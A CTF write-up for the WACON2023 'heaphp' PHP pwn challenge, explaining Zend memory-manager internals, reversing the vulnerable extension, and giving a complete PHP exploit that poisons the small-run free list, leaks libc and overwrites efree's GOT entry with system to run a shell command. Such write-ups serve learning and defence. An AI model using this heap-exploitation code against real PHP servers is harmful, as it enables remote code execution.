







It`s my first time encountering this fancy pwn item, known as Web Pwn, on WACON2023. I have few experience on php coding, so it spent me a long time to figure out how ZendMM actually works.

# The Memory Management of Zend Engine

PHP codes are explained through the **Zend engine**. Instead of directly using traditional `malloc` and `free` to manage memory, Zend uses **ZendMM** to allocate and release memory through `emalloc` and `efree` , which efficiently serves PHP request-bound machanisms (that`s another topic). 

## Basic Structure

As writen in `zend_alloc.c` source code, all allocations are split into 3 categories: huge, large and small. Remember that zend_alloc allocates memory form OS by **CHUNKS**, which contains 2MB memories. Huge allocs are those who exceed a chunk. And zend_alloc use  `mmap` to allocate one. The concept of **PAGE** is commonly used in ZendMM, which usually contains 4KB memories. That`s to say, a chunk contains 512 pages. Small allocs are less than 3/4 of page size. The rest are Large allocs.

Each time a chunk is alloced, the first page of the chunk is used to record basic information about the chunk. The Structure recording information is `_zend_mm_chunk` ,(which doesn`t appear in huge chunk)

```c
struct _zend_mm_chunk {
	zend_mm_heap      *heap;
	zend_mm_chunk     *next;
	zend_mm_chunk     *prev;
	uint32_t           free_pages;				/* number of free pages */
	uint32_t           free_tail;               /* number of free pages at the end of chunk */
	uint32_t           num;
	char               reserve[64 - (sizeof(void*) * 3 + sizeof(uint32_t) * 3)];
	zend_mm_heap       heap_slot;               /* used only in main chunk */
	zend_mm_page_map   free_map;                /* 512 bits or 64 bytes */
	zend_mm_page_info  map[ZEND_MM_PAGES];      /* 2 KB = 512 * 4 */
};
```

All the chunks form a double linked list (`*next`, `*prev`). A chunk records the usage and other detailed information of its 512 pages through `zend_mm_page_map`, `zend_mm_page_info`. Also, the `zend_mm_heap` structure merits attention.

```c
struct _zend_mm_heap {
#if ZEND_MM_CUSTOM
	int                use_custom_heap;
#endif
#if ZEND_MM_STORAGE
	zend_mm_storage   *storage;
#endif
#if ZEND_MM_STAT
	size_t             size;                    /* current memory usage */
	size_t             peak;                    /* peak memory usage */
#endif
	zend_mm_free_slot *free_slot[ZEND_MM_BINS]; /* free lists for small sizes */
#if ZEND_MM_STAT || ZEND_MM_LIMIT
	size_t             real_size;               /* current size of allocated pages */
#endif
#if ZEND_MM_STAT
	size_t             real_peak;               /* peak size of allocated pages */
#endif
#if ZEND_MM_LIMIT
	size_t             limit;                   /* memory limit */
	int                overflow;                /* memory overflow flag */
#endif

	zend_mm_huge_list *huge_list;               /* list of huge allocated blocks */

	zend_mm_chunk     *main_chunk;
	zend_mm_chunk     *cached_chunks;			/* list of unused chunks */
	int                chunks_count;			/* number of allocated chunks */
	int                peak_chunks_count;		/* peak number of allocated chunks for current request */
	int                cached_chunks_count;		/* number of cached chunks */
	double             avg_chunks_count;		/* average number of chunks allocated per request */
	int                last_chunks_delete_boundary; /* number of chunks after last deletion */
	int                last_chunks_delete_count;    /* number of deletion over the last boundary */
#if ZEND_MM_CUSTOM
	union {
		struct {
			void      *(*_malloc)(size_t);
			void       (*_free)(void*);
			void      *(*_realloc)(void*, size_t);
		} std;
		struct {
			void      *(*_malloc)(size_t ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC);
			void       (*_free)(void*  ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC);
			void      *(*_realloc)(void*, size_t  ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC);
		} debug;
	} custom_heap;
	HashTable *tracked_allocs;
#endif
};
```

Mind the `zend_mm_free_slot`. The `ZEND_MM_BINS` usually is 30, which means there are 30 fixed size for small runs. As a result, there are 30 single linked list.

## Vulnerable Small Runs

We mainly focus on small runs, because its vulnerable.

```c
static zend_never_inline void *zend_mm_alloc_small_slow(zend_mm_heap *heap, uint32_t bin_num ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC)
{
	/*
		omitted...
	*/
    
	chunk = (zend_mm_chunk*)ZEND_MM_ALIGNED_BASE(bin, ZEND_MM_CHUNK_SIZE);
	page_num = ZEND_MM_ALIGNED_OFFSET(bin, ZEND_MM_CHUNK_SIZE) / ZEND_MM_PAGE_SIZE;
	chunk->map[page_num] = ZEND_MM_SRUN(bin_num);
	if (bin_pages[bin_num] > 1) {
		uint32_t i = 1;

		do {
			chunk->map[page_num+i] = ZEND_MM_NRUN(bin_num, i);
			i++;
		} while (i < bin_pages[bin_num]);
	}

	/* create a linked list of elements from 1 to last */
	end = (zend_mm_free_slot*)((char*)bin + (bin_data_size[bin_num] * (bin_elements[bin_num] - 1)));
	heap->free_slot[bin_num] = p = (zend_mm_free_slot*)((char*)bin + bin_data_size[bin_num]);
	do {
		p->next_free_slot = (zend_mm_free_slot*)((char*)p + bin_data_size[bin_num]);
#if ZEND_DEBUG
		do {
			zend_mm_debug_info *dbg = (zend_mm_debug_info*)((char*)p + bin_data_size[bin_num] - ZEND_MM_ALIGNED_SIZE(sizeof(zend_mm_debug_info)));
			dbg->size = 0;
		} while (0);
#endif
		p = (zend_mm_free_slot*)((char*)p + bin_data_size[bin_num]);
	} while (p != end);

	/*
		omitted...
	*/
}
```

This function is mainly used for building the small run chain when allocating  a chunk. It explains how 30 single linked chains are built. Because each part of the chain doesn`t have to contain a header about its size, only leaving the fd, we may find the weird scene (compared to glibc) in the memory.

 

When we allocate a small run:

```c
static zend_always_inline void *zend_mm_alloc_small(zend_mm_heap *heap, int bin_num ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC)
{
#if ZEND_MM_STAT
	do {
		size_t size = heap->size + bin_data_size[bin_num];
		size_t peak = MAX(heap->peak, size);
		heap->size = size;
		heap->peak = peak;
	} while (0);
#endif

	if (EXPECTED(heap->free_slot[bin_num] != NULL)) {
		zend_mm_free_slot *p = heap->free_slot[bin_num];
		heap->free_slot[bin_num] = p->next_free_slot;
		return p;
	} else {
		return zend_mm_alloc_small_slow(heap, bin_num ZEND_FILE_LINE_RELAY_CC ZEND_FILE_LINE_ORIG_RELAY_CC);
	}
}
```

When we release a small run:

```c
static zend_always_inline void zend_mm_free_small(zend_mm_heap *heap, void *ptr, int bin_num)
{
	zend_mm_free_slot *p;

#if ZEND_MM_STAT
	heap->size -= bin_data_size[bin_num];
#endif

#if ZEND_DEBUG
	do {
		zend_mm_debug_info *dbg = (zend_mm_debug_info*)((char*)ptr + bin_data_size[bin_num] - ZEND_MM_ALIGNED_SIZE(sizeof(zend_mm_debug_info)));
		dbg->size = 0;
	} while (0);
#endif

	p = (zend_mm_free_slot*)ptr;
	p->next_free_slot = heap->free_slot[bin_num];
	heap->free_slot[bin_num] = p;
}
```

Both of the functions lake security checks .If we replace the fd of it by out target address, we get an arbitrary address allocate!  That makes small runs vulnerable.

# WACON2023-heaphp

A typical php-pwn, we are given a docker environment and a vulnerable php extension module heaphp.so.

It took me quite a long time building local php environment following the guideline on blogs. I complied php locally aming to debug it easily.  [This document](https://learnku.com/docs/php-internals/php7/building_php/6840) helped a lot. However, if you try to complie php with debug-symbol, the ABI of the binary will change, which makes your extension unable to load properly. That 's actually what I encountered. 

So, What 's the point of it ? I don 't know.

## Reverse

All protection is on except Partial RELRO .The extension mainly consists of 5 functions: add, view, edit, list, delete. Because of zend engine, the pseudo-code are hard to understand (especially for noobs like me). There are tons of code of uncertain significance like:



Then we must dig into the basic data type in zend. That\`s `_zend_value` and `_zval_struct`

```c
typedef union _zend_value {
	zend_long         lval;				/* long value */
	double            dval;				/* double value */
	zend_refcounted  *counted;
	zend_string      *str;
	zend_array       *arr;
	zend_object      *obj;
	zend_resource    *res;
	zend_reference   *ref;
	zend_ast_ref     *ast;
	zval             *zv;
	void             *ptr;
	zend_class_entry *ce;
	zend_function    *func;
	struct {
		uint32_t w1;
		uint32_t w2;
	} ww;
} zend_value;

struct _zval_struct {
	zend_value        value;			/* value */
	union {
		uint32_t type_info;
		struct {
			ZEND_ENDIAN_LOHI_3(
				zend_uchar    type,			/* active type */
				zend_uchar    type_flags,
				union {
					uint16_t  extra;        /* not further specified */
				} u)
		} v;
	} u1;
	union {
		uint32_t     next;                 /* hash collision chain */
		uint32_t     cache_slot;           /* cache slot (for RECV_INIT) */
		uint32_t     opline_num;           /* opline number (for FAST_CALL) */
		uint32_t     lineno;               /* line number (for ast nodes) */
		uint32_t     num_args;             /* arguments number for EX(This) */
		uint32_t     fe_pos;               /* foreach position */
		uint32_t     fe_iter_idx;          /* foreach iterator index */
		uint32_t     property_guard;       /* single property guard */
		uint32_t     constant_flags;       /* constant flags */
		uint32_t     extra;                /* not further specified */
	} u2;
};
```

That\`s quite a complex structure, if we replace the meaningless `__int64 xx` with corresponding zend data type, then it will be easier to comprehend.

by the way, the form of parameters looks weird



It doesn\`t mean takeing exactly 2 parameters. In fact,  `a1` stands for the input args (parsed by something like `zend_parse_arg`), while `a2` stands for the return values. We may set type of `a1` to be `zend_execute_data *` and `a2` to be `zval *`. In practice, I set `a1` to be `_zval_struct *` for better comprehension.

After checking the declaration, the meaning of following parts a clear. (take `zif_add_note` for example)



`v2` represents the total number of parameters, and here should be 2.



Here comes a type check. Refering the table and we find '6' represents string. So arg1 should be a string ptr, and will be copied to `v4`.

## Vulnerability

`zif_add_note` use `strlen` to caculate the length of input string and allocate corresponding memory. However, when using `memcpy` to copy content, the 3rd argument taken is the actual length of string. The consequences is that string can be cut off by NULL, which means we can overwrite the next memory\`s fd.

`zif_add_note` also contains an off by NULL Vulnerability.But who cares?

## Exploitation

Since Partial RELRO is on, we can overwrite GOT table. Before that, we must leak the address of heap.so and libc.so.

### Debuging Tricks

To load the target extension, you should put the extension in correct path. To find the path, run

```shell
$ php -i | grep -i extension_dir
```

And modify the php.ini file. You can `find` it in root directory.

```shell
$ sudo find / -name "php.ini"
```

Add the config at the file end

```shell
extension=heaphp.so
```

After that, you can check if it\`s properly loaded by `phpinfo` or checking the `/proc/[pid]/maps` when running php.

To debug the extension, we run php with gdb attached first

```shell
$ gdb php
```

Then we `run` it and press `Ctrl+c` to interrupt it. Check the `vmmap` , you may find heaphp.so is loaded.

We can set breakpoints now. Don`t forget to set our exploit script as argument.

```shell
$ set args ./exp.php
$ b zif_add_notes
$ run
```

You can also write them in a gdb script.

## Address Leak

Through overwrite the content pointer of any notes, we may get content of arbitrary address through `zif_view_note`.

First step, we can leak an fd pointer (by `zif_view_note` or `zif_list_note` ). Our heap memory was allocated by mmap anonymously, it doesn`t have a constant offset with libc.so or heaphp.so.



However, we may find a pointer related to libc.so or heaphp.so on the heap. It could be extremely hard to find one through analyzing the source code. But I found a useful tool in pwndbg.

```shell
usage: leakfind [-h] [-p [PAGE_NAME]] [-o [MAX_OFFSET]] [-d [MAX_DEPTH]] [-s [STEP]] [--negative_offset [NEGATIVE_OFFSET]] address
```

`leakfind` is a powerful tool to leak address given a starting address, then we can find some libc pointers on the heap.



On obtaining the libc address, we get heaphp.so address since they have constant offset, then we can overwrite the `_efree@got.plt` on the heaphp.so with the actual address of `system`  on libc.so.

## Payload

It\`s not the final edition because functions like `chr()` are banned in the docker, and getting shell is usually not allowed in PHP pwn. I preserved them to make it more readable.

```php
<?php
	// function mychr($index){
	// 	return ['\x00', '\x01', '\x02', '\x03', '\x04', '\x05', '\x06', '\x07', '\x08', '\t', '\n', '\x0b', '\x0c', '\r', '\x0e', '\x0f', '\x10', '\x11', '\x12', '\x13', '\x14', '\x15', '\x16', '\x17', '\x18', '\x19', '\x1a', '\x1b', '\x1c', '\x1d', '\x1e', '\x1f', ' ', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '[', '\\', ']', '^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '|', '}', '~', '\x7f', '\x80', '\x81', '\x82', '\x83', '\x84', '\x85', '\x86', '\x87', '\x88', '\x89', '\x8a', '\x8b', '\x8c', '\x8d', '\x8e', '\x8f', '\x90', '\x91', '\x92', '\x93', '\x94', '\x95', '\x96', '\x97', '\x98', '\x99', '\x9a', '\x9b', '\x9c', '\x9d', '\x9e', '\x9f', '\xa0', '¡', '¢', '£', '¤', '¥', '¦', '§', '¨', '©', 'ª', '«', '¬', '\xad', '®', '¯', '°', '±', '²', '³', '´', 'µ', '¶', '·', '¸', '¹', 'º', '»', '¼', '½', '¾', '¿', 'À', 'Á', 'Â', 'Ã', 'Ä', 'Å', 'Æ', 'Ç', 'È', 'É', 'Ê', 'Ë', 'Ì', 'Í', 'Î', 'Ï', 'Ð', 'Ñ', 'Ò', 'Ó', 'Ô', 'Õ', 'Ö', '×', 'Ø', 'Ù', 'Ú', 'Û', 'Ü', 'Ý', 'Þ', 'ß', 'à', 'á', 'â', 'ã', 'ä', 'å', 'æ', 'ç', 'è', 'é', 'ê', 'ë', 'ì', 'í', 'î', 'ï', 'ð', 'ñ', 'ò', 'ó', 'ô', 'õ', 'ö', '÷', 'ø', 'ù', 'ú', 'û', 'ü', 'ý', 'þ', 'ÿ'][$index];
	// }

	function tobytes($integerValue, $byteLength) {
	    $byteString = '';
	    for ($i = 0; $i < $byteLength; $i++) {
	        $byteString .= chr($integerValue & 0xFF);
	        $integerValue >>= 8;
	    }
	    return $byteString;
	}

	add_note("number0","aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa");
	add_note("number1","aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa");
	delete_note(0);
add_note("number0","aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa\x00/bin/shacaaadaaaeaaafaaagaaahaaaiaaajaaa");

	$fd=list_note();
	$fd = $fd[1];
	$decimalValue = 0;

	for ($i = 1; $i <= 6; $i++) {
	    $char = $fd[-$i];
	    $digit = ord($char);
	    $decimalValue = ($decimalValue << 8) | $digit;
	}
	
	$heap_base = $decimalValue - 0x1480;
	$target_libc = $heap_base + 0x82000; 

	delete_note(0);
add_note("number0","aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa\x00aaaabaaacaaadaaaeaaafaaagaaahaaa\xff\x00\x00\x00\x00\x00\x00\x00" . tobytes($target_libc,8));
	$libc_off = view_note(1);
	$libc = 0;

	for ($i = 5; $i >= 0; $i--) {
	    $char = $libc_off[$i];
	    $digit = ord($char);
	    $libc = ($libc << 8) | $digit;
	}	
	$libc -= 0x219aa0;
	printf("%x",$libc);

	$heaphp_base = $libc + 0x7af000;
	$sys_addr = $libc + 0x50d60;
	$efree_got_addr = $heaphp_base + 0x4058;
	delete_note(0);
add_note("number0","aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa\x00aaaabaaacaaadaaaeaaafaaagaaahaaa\xff\x00\x00\x00\x00\x00\x00\x00" . tobytes($efree_got_addr,8));
	add_note("./readflag","/bin/sh");
	edit_note(1,tobytes($sys_addr,8));
	delete_note(2);

?>	
```

